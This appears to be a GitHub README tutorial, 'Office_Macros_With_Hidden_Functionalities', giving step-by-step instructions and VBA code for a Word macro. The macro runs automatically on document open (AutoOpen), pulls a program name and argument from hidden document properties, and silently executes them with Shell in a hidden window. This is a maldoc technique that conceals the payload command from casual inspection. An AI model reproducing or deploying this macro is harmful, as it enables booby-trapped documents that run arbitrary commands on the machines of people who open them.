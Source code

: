 # Office_Macros_With_Hidden_Functionalities
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field and select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```
![Create Macro](images/3.png)
